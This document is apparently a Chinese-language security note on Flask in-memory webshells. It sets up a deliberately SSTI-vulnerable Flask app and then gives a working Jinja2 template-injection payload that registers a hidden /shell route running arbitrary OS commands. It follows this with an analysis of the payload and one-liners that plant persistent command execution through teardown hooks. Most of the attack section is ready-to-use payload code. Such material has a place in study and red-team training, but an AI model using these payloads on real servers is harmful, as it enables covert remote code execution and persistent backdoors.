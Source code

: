 ## 测试环境
app.py
```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/')
def home():
    person = 'guest'
    if request.args.get('name'):
        person = request.args.get('name')
    template = '<h2>Hello %s!</h2>' % person
    return render_template_string(template)


if __name__ == "__main__":
    app.run(debug=False)
```
## 低版本Flask内存马
### payload
```PYTHON
{{url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})}}
```
#### payload分析
实质上的payload执行内容
```PYTHON
"
app.add_url_rule(
'/shell',
'shell',
lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
)
",
{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']
}
```
从实质的payload执行内容可以明显看出内存马的核心是add_url_rule
#### add_url__rule的源码实现
```PYTHON
def add_url_rule(
	self,
	rule: str,
	endpoint: t.Optional[str] = None,
	view_func: t.Optional[ft.RouteCallable] = None,
	provide_automatic_options: t.Optional[bool] = None,
	**options: t.Any,
) -> None:
```

@before_first_request
在对应用程序实例的第一个请求之前注册要运行的函数,只会运行一次
@teardown_request
注册在每一个请求的末尾,不管是否有异常,每次请求的最后都会执行
```python
app.teardown_request_funcs.setdefault(None, []).append(lambda :__import__('os').popen("calc").read())
```
@teardown_appcontext
```PYTHON
app.teardown_appcontext_funcs.append(lambda x :__import__('os').popen("calc").read())
```
@context_processor
上下文处理器,返回的字典可以在全部的模板中使用.
@template_filter('upper')
增加模板过滤器,可以在模板中使用该函数,后面的参数是名称,在模板中用到.
@errorhandler(400)
发生一些异常时,比如404,500,或者抛出异常(Exception)之类的,就会自动调用该钩子函数.